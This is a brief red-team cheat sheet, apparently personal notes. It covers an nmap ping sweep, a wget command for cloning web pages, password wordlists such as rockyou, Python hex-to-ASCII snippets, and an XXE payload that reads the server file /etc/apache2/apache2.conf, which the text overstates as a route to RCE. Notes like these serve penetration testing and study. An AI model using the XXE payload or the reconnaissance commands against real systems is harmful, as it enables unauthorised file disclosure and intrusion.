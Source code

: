 # Red Team

### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```

### Clone web page
```wget -r -nH $url```


### Wordlists
* [SecList](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

## Python

## Dealing with hex encoded strings.

### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

### Print that in ascii
``` print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY entityex SYSTEM "file:///etc/apache2/apache2.conf">
]>
<abc>&entityex;</abc>
```

